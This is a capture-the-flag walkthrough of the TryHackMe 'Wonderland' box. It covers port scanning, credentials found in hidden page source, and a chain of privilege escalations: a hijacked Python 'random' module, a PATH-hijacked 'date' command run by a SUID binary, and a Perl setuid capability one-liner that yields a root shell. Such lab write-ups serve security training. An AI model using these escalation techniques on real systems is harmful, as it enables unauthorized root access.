# TryHackMe
------------------------------------
### IP: 10.10.182.0
### Name: Wonderland
### Difficulty: Medium
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Wonderland]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.81.90
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-15 13:59 CDT
Warning: 10.10.81.90 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.81.90
Host is up (0.15s latency).
Not shown: 65503 closed tcp ports (reset), 30 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
|_  256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.40 seconds
```

Looking at the page we find an Alice in Wonderland themed site:



Finding an `/r` directory, the page says to keep going:



Going off a hunch I tried `/r/a` and confirmed these directories will spell `/r/a/b/b/i/t`





Luckily `http://10.10.81.90/r/a/b/b/i/t/h/o/l/e` didn't return anything for us.

Looking at the page source for http://10.10.81.90/r/a/b/b/i/t/ we find a hidden HTML paragraph element, and it looks like possible credentials:



Trying these with SSH we find we can login as user Alice:

```
┌──(ryan㉿kali)-[~/THM/Wonderland]
└─$ ssh alice@10.10.81.90                             
The authenticity of host '10.10.81.90 (10.10.81.90)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.81.90' (ED25519) to the list of known hosts.
alice@10.10.81.90's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

<SNIP>

alice@wonderland:~$ whoami
alice
alice@wonderland:~$ hostname
wonderland
```

There are two files in alice's directory, a Python script, and strangely a root.txt file:

```
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
```

We can't read the root.txt file, and the Python script has a long poem, and seems to just randomly print 10 lines:

```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun
Had got no business to be there
After the day was done —
"It’s very rude of him," she said,
"To come and spoil the fun!"

The sea was wet as wet could be,
The sands were dry as dry.
You could not see a cloud, because
No cloud was in the sky:
No birds were flying over head —
There were no birds to fly.

The Walrus and the Carpenter
Were walking close at hand;
They wept like anything to see
Such quantities of sand:
"If this were only cleared away,"
They said, "it would be grand!"

"If seven maids with seven mops
Swept it for half a year,
Do you suppose," the Walrus said,
"That they could get it clear?"
"I doubt it," said the Carpenter,
And shed a bitter tear.

"O Oysters, come and walk with us!"
The Walrus did beseech.
"A pleasant walk, a pleasant talk,
Along the briny beach:
We cannot do with more than four,
To give a hand to each."

The eldest Oyster looked at him.
But never a word he said:
The eldest Oyster winked his eye,
And shook his heavy head —
Meaning to say he did not choose
To leave the oyster-bed.

But four young oysters hurried up,
All eager for the treat:
Their coats were brushed, their faces washed,
Their shoes were clean and neat —
And this was odd, because, you know,
They hadn’t any feet.

Four other Oysters followed them,
And yet another four;
And thick and fast they came at last,
And more, and more, and more —
All hopping through the frothy waves,
And scrambling to the shore.

The Walrus and the Carpenter
Walked on a mile or so,
And then they rested on a rock
Conveniently low:
And all the little Oysters stood
And waited in a row.

"The time has come," the Walrus said,
"To talk of many things:
Of shoes — and ships — and sealing-wax —
Of cabbages — and kings —
And why the sea is boiling hot —
And whether pigs have wings."

"But wait a bit," the Oysters cried,
"Before we have our chat;
For some of us are out of breath,
And all of us are fat!"
"No hurry!" said the Carpenter.
They thanked him much for that.

"A loaf of bread," the Walrus said,
"Is what we chiefly need:
Pepper and vinegar besides
Are very good indeed —
Now if you’re ready Oysters dear,
We can begin to feed."

"But not on us!" the Oysters cried,
Turning a little blue,
"After such kindness, that would be
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

There are three other folders in `/home`, but alice is unable to access them:

```
alice@wonderland:/home$ ls
alice  hatter  rabbit  tryhackme
alice@wonderland:/home$ cd hatter
-bash: cd: hatter: Permission denied
alice@wonderland:/home$ cd rabbit
-bash: cd: rabbit: Permission denied
alice@wonderland:/home$ cd tryhackme/
-bash: cd: tryhackme/: Permission denied
```

And running `sudo -l` for alice shows we can run the Python script with `sudo` as the hatter user:

```
alice@wonderland:/home$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
We can run the script, and confirm it's just randomly printing 10 lines:

```
alice@wonderland:/home$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
The line was:	 Such quantities of sand:
The line was:	 You could not see a cloud, because
The line was:	 "You’ve had a pleasant run!
The line was:	 Shining with all his might:
The line was:	 The eldest Oyster looked at him.
The line was:	 "Do you admire the view?
The line was:	 
The line was:	 After the day was done —
The line was:	 After the day was done —
The line was:	 Had got no business to be there
```

The file is owned by root, rabbit can execute it with `sudo` , we can run it in our context, but we can't edit it:

```
alice@wonderland:~$ ls -la walrus_and_the_carpenter.py 
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
```

What we can do however is hijack the random function the script imports.

Lets create our own file called random.py, and then run the script with `sudo` for rabbit:

```
alice@wonderland:~$ cat >> random.py
import os
os.system("/bin/bash")
^C
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```
Looking in rabbit's home directory we find a SUID binary:



trying to run it:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 15 Jun 2024 21:14:00 +0000
Ask very nicely, and I will give you some tea while you wait for him
?
Segmentation fault (core dumped)
```

Lets use Python and wget to transfer this file back to our local machine for inspection.



Using the `strings` command against teaParty we can see it is calling the `date` command in Linux:

```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

Lets hijack the date command in a similar way we hijacked the random module in Python.

First we'll create a file called date that calls `/bin/bash`, then we'll make it executable, next we'll update our `$PATH` with our home directory, finally we'll run the SUID and our malicious `"date"` will be executed.



From here I loaded up LinPEAS to help enumerate I see that Perl has capabilities set:



Heading to GTFOBins.com we find the command we'll need to exploit this:



However every time I issued the command I received Permission Denied errors, which was odd:

```
hatter@wonderland:/home/hatter$ whoami
hatter
hatter@wonderland:/home/hatter$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
bash: /usr/bin/perl: Permission denied
```

Looking around a bit more I found the password.txt file in hatter's home directory:

```
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

I used this to SSH with a new session and was able to execute the Perl command with no issues, even if I'm not sure why.

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

I can now grab the user.txt flag in `/root` and the root.txt flag in alice's home directory:



Thanks for following along!

-Ryan

------------------------------------------------
